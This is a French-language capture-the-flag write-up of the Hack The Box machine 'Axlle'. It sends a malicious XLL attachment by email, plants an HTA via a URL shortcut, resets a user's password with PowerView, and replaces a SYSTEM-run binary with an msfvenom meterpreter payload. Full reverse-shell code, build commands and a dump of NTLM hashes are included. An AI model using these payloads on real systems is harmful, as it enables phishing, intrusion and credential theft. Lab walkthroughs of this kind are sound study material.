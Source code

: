 # htb_axlle

### Trouver l’adresse et service  
Configurer correctement le VPN et obtenir l'adresse：10.10.11.21 
`nmap -sSvc 10.10.11.21`

![nmap](./images/nmap.png)

De nombreux ports ont été ouverts. Jetons un coup d'œil aux ports clés 80 et 445.

### Vérifiez les ports on trouvé

Port 80

![nmap](./images/dirsearch.png)

Port 445

![nmap](./images/smb.png)

L’accès anonyme n’est pas possible non plus, donc il ne reste plus qu’à vérifier les autres ports.

J’ai remarqué le service SMTP sur le port 25 (en me référant à un rapport, il y a la possibilité d’utiliser XLL-EXEC pour envoyer un fichier à l’utilisateur admin et obtenir un accès shell).

### Essayez d'abord d'envoyer un article à l'administrateur (le compte administrateur est affiché dans l'interface Web)

`
swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "just a test"  --attach test.txt

`
![nmap](./images/25.png)

La vérification des informations montre que le fichier txt a été téléchargé sur le serveur de l'autre partie.

Après avoir essayé ici, j'ai découvert que d'autres formats de fichiers ne peuvent pas être téléchargés, seuls les fichiers XLL peuvent être téléchargés.

## XLL-EXEC

https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec

Copiez les fichiers et modifiez-les, et remplacez Powershell#3 (Base64) par le shell de rebond

`
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    WinExec("bash -c 'bash -i >& /dev/tcp/192.168.66.3/9100 0>&1'", 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

`

Utilisez gcc pour compiler des fichiers C en fichiers xll
`
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll exploit.c -luser32

`
Envoyez le fichier xll au compte administrateur et attendez l'exécution
`
swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "give me a shell"  --attach shell.xll

`

![nmap](./images/nc.png)

L'hôte ayant ouvert le service de messagerie, accédez à l'annuaire pour trouver des informations.
`
cd "C:\Program Files (x86)\hmailserver\"

`
Dans C:\Program Files (x86)\hmailserver\data\axlle.htb\dallon.matrix\2F>, il y a un fichier eml, affichez-le en tapant *

![nmap](./images/file.png)

### reverse shell hta
Un script d'automatisation est utilisé pour tester l'URL, en plaçant l'URL dans le dossier `C:\inetpub\testing`. Le fichier `priv.url` contient l'emplacement du script HTA, dans lequel vous devez ajouter un code de reverse shell.

`
#priv.url
[InternetShortcut]
URL=C:\Users\Public\Downloads\shell.hta

#shell.hta
<html>
<head>
<script language="jscript">
        var c = "bash -c 'bash -i >& /dev/tcp/192.168.66.3/9200 0>&1'"; 
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>

`

![nmap](./images/9200.png)

Téléchargez un "sharphound" pour afficher les informations sur le domaine,donc téléchargez le fichier localement et utilisez Bloodhound pour l'analyse

![nmap](./images/blood.png)

### Réinitialiser le mot de passe utilisateur

On peut voir que le groupe "web devs" a l'autorisation de modifier le mot de passe de l'utilisateur jacob.greeny. Utilisez l'outil PowerView pour modifier son mot de passe.
`
. .\PowerView.ps1
$UserPassword = ConvertTo-SecureString 'Test123!' -AsPlainText -Force
Set-DomainUserPassword -Identity JACOB.GREENY -AccountPassword $UserPassword
`
Après modification, utilisez evil-winrm pour vous connecter à l'utilisateur.

![nmap](./images/modification.png)

### Réécrire le fichier

Vous avez trouvé un fichier README.md sous C:\App Development\kbfiltr, vérifiez-le

![nmap](./images/rewrite.jpg)

Il est à noter que le fichier `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` sera exécuté en tant que fichier système. Commencez par vérifier les autorisations de ce dossier.
`
icacls "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64"

`
![nmap](./images/icacls.jpg)

On remarque que `Everyone` possède les permissions d'exécution et de lecture. Remplacez-le par votre propre payload.

`
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=9500 -f exe -o standalonerunner.exe

`

![nmap](./images/shell.jpg)

Exporter le hash NTLM, ici le hash de Jacob correspond à la valeur avant la modification du mot de passe.

`
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6322b5b9f9daecb0fefd594fa6fafb6a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6d92f4784b46504cf3bedbc702ac03fe:::
david.brice:1109:aad3b435b51404eeaad3b435b51404ee:0279f2a1f290ff139458088afb45fa3f:::
frankie.rose:1110:aad3b435b51404eeaad3b435b51404ee:80c10c678c9b31e2091065c90519e529:::
brad.shaw:1111:aad3b435b51404eeaad3b435b51404ee:9cefad58a9a2188687922a6cc10485a3:::
samantha.jade:1112:aad3b435b51404eeaad3b435b51404ee:8047ec8cda0666f4e1c1be0ddc2d0378:::
gideon.hamill:1113:aad3b435b51404eeaad3b435b51404ee:aa753e07e1fd47a45e0ecb3a0cc70dab:::
xavier.edmund:1114:aad3b435b51404eeaad3b435b51404ee:9ecaa82cc22e0e1534493a03276dc02b:::
emily.cook:1115:aad3b435b51404eeaad3b435b51404ee:b35775e6e9d3af6c0dcf33cef162986d:::
brooke.graham:1116:aad3b435b51404eeaad3b435b51404ee:bcd1044566a9fb7fe130bdd5bcce7db1:::
trent.langdon:1117:aad3b435b51404eeaad3b435b51404ee:a4bbfacd030508d12f3a203bbab8b1f8:::
matt.drew:1118:aad3b435b51404eeaad3b435b51404ee:eb116285721b66b71d98803716b94616:::
jess.adams:1119:aad3b435b51404eeaad3b435b51404ee:933d10a14def0ed5ffbd708092d92e4d:::
jacob.greeny:1120:aad3b435b51404eeaad3b435b51404ee:805175c3d08be3027ed63e88a944f736:::
simon.smalls:1121:aad3b435b51404eeaad3b435b51404ee:d14ddd0880870e9d7fcb442653b6183e:::
dan.kendo:1122:aad3b435b51404eeaad3b435b51404ee:3fa7f786ca68123db7fdef522cb93a22:::
lindsay.richards:1123:aad3b435b51404eeaad3b435b51404ee:71d62e4384f2e9b92169a10a29539b2d:::
calum.scott:1124:aad3b435b51404eeaad3b435b51404ee:35a376bb58095b4a559fbceccdb01364:::
dallon.matrix:1125:aad3b435b51404eeaad3b435b51404ee:124a4a99bf67ca4b04e2266f967daa64:::
baz.humphries:1126:aad3b435b51404eeaad3b435b51404ee:ecfc37e6e4797f9ae97b61f0265c0561:::
MAINFRAME$:1000:aad3b435b51404eeaad3b435b51404ee:011a082f7649082b7fe7521c2ae2bb2a:::

`
